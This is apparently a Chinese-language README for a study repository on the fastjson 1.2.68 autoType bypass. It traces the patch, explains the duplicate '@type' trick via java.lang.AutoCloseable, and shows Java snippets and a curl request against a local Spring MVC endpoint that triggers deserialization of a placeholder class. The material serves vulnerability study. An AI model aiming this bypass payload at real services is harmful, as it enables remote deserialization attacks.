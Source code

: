 fastjson-study

## 背景

fastjson 1.2.68 版本爆出高危漏洞，本次通过寻找改漏洞触发机制来学习 fastjson 的安全机制

[安全漏洞通告](https://github.com/alibaba/fastjson/wiki/security_update_20200601)

## bug 追踪

### 查看 bug 如何被修复

![img.png](./screenshots/img1.png)

升级到 *.sec10 可解决问题

### 下载代码查看修改点

1.2.8 到 1.2.8.sec10 改动较小，增加了一个 denyHashCodes，三个 exceptClass (并将 exceptClass 替换为 exceptHash)

下载 source.jar 解压获取源码 (已解压放到 fastjson-source-code 文件夹下)

[fastjson-1.2.8-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8/fastjson-1.2.8-sources.jar)

[fastjson-1.2.8.sec10-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8.sec10/fastjson-1.2.8.sec10-sources.jar)

1. 在 ParserConfig.denyHashCodes 中添加了 0xD59EE91F0B09EA01L

![img.png](./screenshots/img2.png)

通过广大网友的暴力破解 [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

得到 0xD59EE91F0B09EA01L 为 oracle.jms.AQ

但黑名单需要开启 autoType 才能使用，所以该重大漏洞大概率与 oracle.jms.AQ 无关

2. exceptClass 替换为 exceptHash 并添加了3个

![img.png](./screenshots/img3.png)

通过源码分析，使用 TypeUtils.fnv1a_64 遍历 java 标准库的类名得到新增加的 3个 exceptHash 为

- java.lang.Runnable
- java.lang.Readable
- java.lang.AutoCloseable

能绕过 autoType 限制大概率于这三个类有关

# 如何绕过 autoType 限制

在网上查阅资料得到可以通过两个 @type 标记绕过 autoType 限制，具体操作如下

```java
//see FastjsonTest.test1
//AutoCloseableBadCode 实现了 AutoCloseable 接口
String jsonString = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parse(jsonString);
log.info("result className {}", result.getClass().getName());
// ==> result className  io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

json 串中有两个相同的 key @type 反序列化时不会报错吗？答案时不会。

```java
//see FastjsonTest.test1
log.info("result {}", JSON.parseObject("{\"a\": 1, \"a\":2}"));
// ==> result {"a":2}
```

没有开启 autoType 时，什么情况下可以使用 @type ?

通过分析 ParserConfig.checkAutoType 的代码得:

1. 指定期望类，且 @type 为期望类或其子类

```java
//set FastjsonTest.test6
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parseObject(jsonString, AutoCloseable.class);
log.info("result className {}", result.getClass().getName());
// ==> result className io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

2. 类被 fastjson 反序列化过 (被 TypeUtils 缓存过)

```java
//see FastjsonTest.test7
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
//被反序列过
JSON.parseObject("{}", AutoCloseableBadCode.class);
Object result = JSON.parseObject(jsonString);
log.info("result className {}", result.getClass().getName());
```

添加的三个期望类中只有 AutoCloseable 被 TypeUtils 缓存过，所以能绕过 autoType 的高危漏洞多半与其有关

通过代码分析，两个 @type 中，在效果上等价于:

```java
//运行到第一个 @type，告知 fastjson 要反序列 AutoCloseable，AutoCloseable 被缓存过，允许反序列化，期望类变更为 AutoCloseable
JSON.parseObject"{\"@type\":\"java.lang.AutoCloseable\"}");
//运行到第二个 @type，告知 fastjson 要反序列 AutoCloseableBadCode, AutoCloseableBadCode 是 AutoCloseable 的实现，允许反序列化，期望类变更为 AutoCloseableBadCode
Object result = JSON.parseObject("\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}", AutoCloseable.class);
```

绕过此次漏洞是由该方式造成的，那么该类需要有如下特征

1. 拥有公开的无参构造方法
2. getXXX 或 setXXX 或无参构造方法能触发危险操作
3. 实现 AutoType
4. 不在 fastjson 的黑名单中
5. 在 java 标准库中或常用的第三方库中

# 利用漏洞的方法

以下构造了一个相对比较常见的常见

条件: 
1. 使用 spring mvc，且反序列化方式使用 fastjson (常见)

```java
@Bean
public HttpMessageConverter configureMessageConverters() {
    FastJsonHttpMessageConverter converter = new FastJsonHttpMessageConverter();
    FastJsonConfig config = new FastJsonConfig();
    converter.setFastJsonConfig(config);
    converter.setDefaultCharset(StandardCharsets.UTF_8);
    List<MediaType> mediaTypeList = new ArrayList<>();
    mediaTypeList.add(MediaType.APPLICATION_JSON);
    converter.setSupportedMediaTypes(mediaTypeList);
    return converter;
}
```

2. 拥有一个使用 @RequestBody 的 Controller (常见)

3. 拥有满足高危漏洞的类(比较难找，这里用 AutoCloseableBadCode 代替)

正常请求:

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"msg": "data1"}'
```

触发漏洞请求

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"data": {"@type":"java.lang.AutoCloseable","@type":"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode","name":"test"}, "msg": "test"}'
```

此时就会执行 AutoCloseableBadCode.setName (目标类可以没有 setData 和 getData 属性)

# 总结

个人认为 fastjson 不太合理的点:

1. 缺少基本参数校验: 同一层级出现两个相同 key 不属于标准 json 格式，应当报错
2. API未按危险等级划分: JSON.parse、JSON.parseObject 都能在默认配置下对 @type 生效，应当提供默认不支持 @type 的方法(safe 模式)
3. 指定期望类情况下依旧下不对是否有该参数进行校验
4. 用户可能会在不知情的情况下对某些类进行反序列化，被反序列过的类再次反序列化校验不严格


